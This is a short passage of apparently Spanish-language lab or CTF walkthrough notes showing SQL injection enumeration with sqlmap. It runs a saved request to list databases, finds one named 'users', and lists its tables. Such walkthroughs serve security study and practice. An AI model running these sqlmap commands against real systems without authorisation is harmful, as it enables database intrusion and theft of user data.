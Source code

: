 ```bash
sqlmap -r request.txt --dbs
```

![[20250820115619.png]](mirame-images/20250820115619.png)

aqui pulsamos "0"

![[20250820115640.png]](mirame-images/20250820115640.png)

y vemos la base de datos users

```bash
sqlmap -r request.txt -D users --tables
```

ahora buscaremos tablas dentro de users
